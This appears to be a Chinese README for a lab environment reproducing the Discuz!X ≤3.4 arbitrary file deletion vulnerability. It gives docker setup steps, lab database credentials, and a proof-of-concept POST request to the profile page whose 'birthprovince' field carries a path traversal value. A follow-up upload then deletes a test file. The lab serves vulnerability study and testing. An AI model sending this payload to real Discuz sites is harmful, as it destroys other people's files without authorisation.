


# Discuz!X ≤3.4 任意文件删除漏洞

影响版本：Discuz!X ≤3.4  漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

# 环境
执行下列命令部署 Discuz!X 安装环境

    docker-compose build
    docker-compose up -d

在镜像完成部署后使用下列命令获取数据库IP以便后面安装。

    docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' $container_name_or_id

数据库地址为上面的命令获得的地址，数据库名为：`DISCUZX` 。用户名可用 `root` 或 `DISCUZX` ，口令是 `DISCUZX` 。

# POC

使用 `docker ps` 以及 `docker exec -it $container_name_or_id ` 查看当前目录的状态，可以看到测试文件 `target.txt` 。

注册用户后进入用户资料修改页面，在基本资料页面尝试使用 `Hackbar` 提交

    POST http://$IP/home.php?mod=spacecp&ac=profile&op=base
    birthprovince=../../../target.txt&profilesubmit=1&formhash=$UserHash

其中formhash可以再页面中查找获得。

提交成功之后用户资料修改页面上的出生地就会显示成下图所示的状态。

这时使用 `upload.html` 进行任意图片上传。

完成攻击，目标文件成功被删除

